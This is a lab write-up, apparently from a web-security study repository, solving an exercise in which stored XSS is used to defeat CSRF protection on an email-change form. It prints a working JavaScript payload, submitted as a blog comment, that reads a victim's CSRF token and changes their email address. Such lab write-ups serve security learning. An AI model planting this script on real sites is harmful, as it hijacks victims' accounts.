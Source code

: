 ![image](https://github.com/udayk01/Web-Security/assets/52235763/13bdf5cb-0845-43bd-b3f4-5054aa3e3e28)

## Solution:

> Log in using the credentials provided. On your user account page, notice the function for updating your email address.

![image](https://github.com/udayk01/Web-Security/assets/52235763/b447f65d-1b03-46ab-929f-bc3f093b1591)

> If you view the source for the page, you'll see the following information:

>> You need to issue a POST request to /my-account/change-email, with a parameter called email.

>> There's an anti-CSRF token in a hidden input called token.

> This means your exploit will need to load the user account page, extract the CSRF token, and then use the token to change the victim's email address.

![image](https://github.com/udayk01/Web-Security/assets/52235763/f3e8ba3c-26e0-4b4e-8610-40cfdf074af2)

> Submit the following payload in a blog comment:
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

![image](https://github.com/udayk01/Web-Security/assets/52235763/c3dd427c-b744-4649-8df6-75f012656bba)

> This will make anyone who views the comment issue a POST request to change their email address to test@test.com.

> Lab Solved

![image](https://github.com/udayk01/Web-Security/assets/52235763/a740953c-e1d2-4671-9e21-9366bda56b98)
